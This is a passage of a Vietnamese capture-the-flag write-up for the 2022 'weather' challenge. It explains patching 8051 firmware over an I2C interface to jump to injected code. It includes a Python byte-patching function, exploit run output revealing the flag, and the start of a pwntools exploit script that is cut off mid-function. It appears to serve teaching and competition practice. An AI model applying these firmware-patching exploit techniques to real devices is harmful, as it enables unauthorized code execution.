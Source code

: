 #### It's patching timeeeee!

Vậy ta sẽ tiến hành patch các byte nào đó bắt đầu từ địa chỉ 0x457 thành một instruction long jump đến địa chỉ 0xb80 (vì tại page 46 thì địa chỉ bắt đầu sẽ là 46 * 64 = 0xb80), xem thêm về 8051 instructions [ở đây](https://www.win.tue.nl/~aeb/comp/8051/set8051.html), để làm điều này thì ta sẽ tự viết một hàm check và patch:
```python
def patch(start, end, bytestr):
    dump = open('dump.raw', 'rb').read()
    res = 0
    for offset in range(start, end):
        arr = dump[offset:offset+len(bytestr)]
        notmatch = 0
        for i in range(len(arr)):
            if ((arr[i] & bytestr[i]) != bytestr[i]):
                notmatch = 1
                break
        if notmatch == 0:
            log.info('Patching available at offset '+hex(offset))
            res = offset
            break
    page = offset // 64
    _offset = offset % 64
    pByte = _offset * b'\0' + bytestr
    wrom(page, pByte)
```

#### Lụm flag

Sau khi chạy script exploit:
```
pwn@icbm:~/Desktop/weather$ python3 exp.py 
[+] Opening connection to weather.2022.ctfcompetition.com on port 1337: Done
[*] Patching available at offset 0x4c1
[*] Flag: CTF{DoesAnyoneEvenReadFlagsAnymore?}
[*] Closed connection to weather.2022.ctfcompetition.com port 1337
```

Nếu chưa hiểu rõ các idea mình đã trình bày thì bạn có thể tham khảo và debug thử script sau:
```python
from pwn import *

io = remote('weather.2022.ctfcompetition.com', 1337)


def r(port, length):
    io.sendlineafter(b'? ', b'r '+str(port).encode('utf-8')+b' '+str(length).encode('utf-8'))
    io.recvuntil(b'i2c status: ')
    io.recvline()
    data = b''
    cnt = 0
    for i in io.recvuntil(b'\n-end').split()[:-1]:
        cnt+=1
        data+=p8(int(i))
    return data

def w(port, data):
    length = len(data)
    io.sendlineafter(b'? ', b'w '+str(port).encode('utf-8')+b' '+str(length).encode('utf-8')+b' '+data)


def wrom(page, data):
    data = data.ljust(64, b'\x00')
    rdata = b''
    for i in data:
```